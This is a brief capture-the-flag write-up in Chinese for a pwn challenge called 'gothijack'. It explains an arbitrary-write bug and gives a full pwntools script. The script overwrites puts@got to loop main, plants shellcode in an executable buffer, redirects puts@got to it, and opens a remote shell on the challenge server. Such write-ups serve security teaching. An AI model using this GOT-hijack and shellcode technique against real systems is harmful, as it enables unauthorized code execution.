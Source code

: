 ## gothijack
先分析本題binary，有開啟canary，無NX、PIE，執行發現會先要求name，寫入到`username`(`0x6010a0`)，該區段為`rwxp`，接著可以任意指定一個address，寫入8byte資料，由於此題有canary，但看起來沒有任何leak，也未提供libc，因此很難使用ROP和return to libc，唯一可以控制rip的方式是在寫入記憶體位址後執行`puts`，因此可以透過改寫`puts@got`來控制。

因此最後做法為使用任意寫先將`puts@got`改為`main`，如此一來就可以重複執行，也就是說可以重複對任意記憶體位址寫入，接著將shellcode分數次寫到`buffer+8`的位址，最後再改寫`puts@got`為`buffer+8`跳過去執行即可

```python
#!/usr/bin/env python3

from pwn import *
context(arch='amd64')

#r = process('gothijack')
r = remote('csie.ctf.tw', 10129)
b = ELF("gothijack")

r.sendline('\x00')
r.recvuntil('write :')
r.sendline(hex(b.got[b'puts']))
r.recvuntil('data :')
r.send(p64(b.symbols[b'main']))

buf = b.symbols[b'username']
sc = asm(shellcraft.sh())
for i in range(0, len(sc), 8):
    r.recvuntil('name :')
    r.sendline('\x00')
    r.recvuntil('write :')
    r.sendline(hex(buf + 8 + i))
    r.recvuntil('data :')
    r.send(sc[i:i + 8])

r.sendline('\x00')
r.recvuntil('write :')
r.sendline(hex(b.got[b'puts']))
r.recvuntil('data :')
r.send(p64(buf + 8))

r.interactive()
```
